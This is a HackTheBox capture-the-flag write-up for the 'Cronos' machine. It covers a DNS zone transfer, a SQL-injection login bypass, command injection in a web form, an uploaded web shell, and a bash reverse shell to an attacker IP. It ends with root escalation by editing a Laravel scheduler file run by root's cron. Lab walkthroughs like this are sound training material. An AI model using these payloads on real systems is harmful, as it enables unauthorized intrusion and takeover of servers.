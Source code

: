 ```yaml
---
title: "HackTheBox - WriteUp 8"
date: 2019-06-10T16:15:19+08:00
description: "HackTheBox 练手 - CronOS - PHP Cron"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Cronos

## Before Start

nmap it, 22/tcp with openssh, 80/tcp with apache and 53/tcp weth ISC BIND.

80/tcp is the default page with apache, so we may need to modify our hosts.

# Attack

## DNS Enumeration

```bash
$ dig axfr @10.10.10.13 cronos.htb
; <<>> DiG 9.14.2 <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 613 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: 一 6月 10 16:20:51 CST 2019
;; XFR size: 7 records (messages 1, bytes 203)
```

After you get those records, just add them to your hosts.

## Access via web

At root domain, you just know it's a Laravel PHP Site.

At login domain, there's a login form. Check the source code, found nothing.

So there's must be a SQL Injection. Use username with SQL injection code `admin' -- -`. You logged in.

## Grab the packet

After you logged in, you get a command line page named "Net Tool", check the request it post. You will find it containes two parameters, `command` and `host`.

After you try, you will find these params has no blacklist. So use whatever you want.

We found a normal user called `noulis`, `command=cat&host=/home/noulis/user.txt`, Get User.

## Root

Fire up AntSword, and generate a shell then upload.

Then use `bash -c 'bash -i &>/dev/tcp/10.10.16.37/48484 0<&1'` to get a reverse shell.

After upload it, run LinEnum. You found a crontab running by root:

```bash
$ find -name artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
$ crontab -l
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Let's check the source code, The artisan will run the code in: `/var/www/laravel/app/Console/Kernel.php`, Next, just modify this file, and do whatever you want.

```php
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
        $schedule->exec('cp /root/root.txt /tmp/y2y3g.txt')->everyMinute();
        $schedule->exec('chmod 777 /tmp/y2y3g.txt')->everyMinute();
    }
```

(END)
